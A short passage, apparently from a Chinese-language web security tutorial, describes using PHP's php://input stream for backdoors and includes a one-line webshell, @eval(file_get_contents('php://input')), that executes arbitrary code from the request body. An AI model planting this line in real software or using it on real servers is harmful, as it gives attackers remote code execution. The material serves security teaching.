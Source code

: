 ![php反序列化](ex_6.png)

### php://input方法

php://input可以访问请求的原始数据的只读流，我们可以理解为我们传post参数，php://input会读取到，这时候我们就可以加以利用了。

```php
<?php
@eval(file_get_contents('php://input'));
```

![php://input方法](ex_7.png)
